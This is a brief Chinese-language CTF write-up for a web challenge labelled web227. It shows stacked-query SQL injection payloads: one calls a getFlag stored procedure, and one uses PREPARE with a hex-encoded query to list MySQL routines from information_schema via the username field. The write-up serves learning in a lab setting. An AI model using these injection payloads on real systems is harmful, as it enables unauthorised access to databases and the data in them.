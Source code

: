 

#### web227

这道题没办法通过查表拿到flag

这道题的payload是

```
1';call getFlag();
```

就是执行getFlag函数拿到flag

但问题是我们要怎么知道这个函数呢

我们需要查看MySQL的存储过程，如下文

[MySQL——查看存储过程和函数_mysql 查询function-CSDN博客](https://blog.csdn.net/qq_41573234/article/details/80411079)

![image-20250216161746894](../assets/image-20250216161746894.png)

```
SELECT * FROM information_schema.Routines
```

通过预处理执行

```
username=1';PREPARE Routines from 0x53454c454354202a2046524f4d20696e666f726d6174696f6e5f736368656d612e526f7574696e6573;EXECUTE Routines;
```

![image-20250216162150778](../assets/image-20250216162150778.png)

可以看到getFlag函数和flag
